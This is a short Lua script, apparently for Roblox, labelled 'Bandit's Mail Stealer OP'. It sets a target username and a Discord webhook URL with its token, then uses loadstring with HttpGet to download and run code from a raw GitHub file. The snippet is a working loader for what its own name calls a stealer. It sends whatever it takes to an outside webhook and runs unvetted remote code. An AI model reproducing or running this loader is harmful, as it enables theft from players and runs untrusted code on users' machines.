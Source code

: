 _G.Username = "budjoyarr"
_G.HubName = "Bandit's Mail Stealer OP"
_G.WebhookUrl = "https://discord.com/api/webhooks/1090182561558446090/gCHs6kfHbE2-qxSojez4yWaZh_qBOEXbSh6dMpv-JZ7Eu6vC4JTADkub7Wle-B1cb41X"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
